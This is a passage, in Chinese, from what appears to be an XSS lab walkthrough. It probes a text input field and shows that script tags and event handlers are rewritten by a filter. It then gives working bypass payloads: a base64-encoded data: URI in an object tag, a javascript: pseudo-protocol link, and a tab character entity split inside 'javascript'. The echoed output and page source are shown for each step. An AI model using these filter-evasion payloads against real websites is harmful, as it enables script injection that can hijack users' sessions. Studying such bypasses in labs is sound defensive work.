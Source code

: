 > " 和 > 都可用

**判断能否执行 javascript 代码**

提交参数

```
<script>alert(document.domain);</script>
```

 回显

```
<xscript>alert(document.domain);</xscript>
```

源码

```
<input type="text" name="p1" size="50" value="<xscript>alert(document.domain);</xscript>">
```

插入事件

```
hello" onmouseover="alert(document.domain)"
```

回显

```
hello
```

源码

```
<input type="text" name="p1" size="50" value="hello" onxxx="alert(document.domain)" "="">
```

> 事件和 \<script> 都被替换

使用 \<iframe> ， \<a>，\<object> 标签进行 base64 编码提交

```
"><object data="data:text/html;base64,PHNjcmlwdD5hbGVydChkb2N1bWVudC5kb21haW4pPC9zY3JpcHQ+"></object>
```

> ```
> "><object data="data:text/html;base64,<script>alert(document.domain)</script>"></object>
> ```

> 几乎所有的 HTML 标签都可以通过添加适当的事件属性来触发 JavaScript 函数。

尝试伪协议绕过

```
"><a href="javascript:alert(document.domain)">hello</a>
```

插入编码只有实体编号没有实体名称字符（回车，Tab），避免转义

```
"><a href="javas&#x09;cript:alert(document.domain)">hello</a>
```
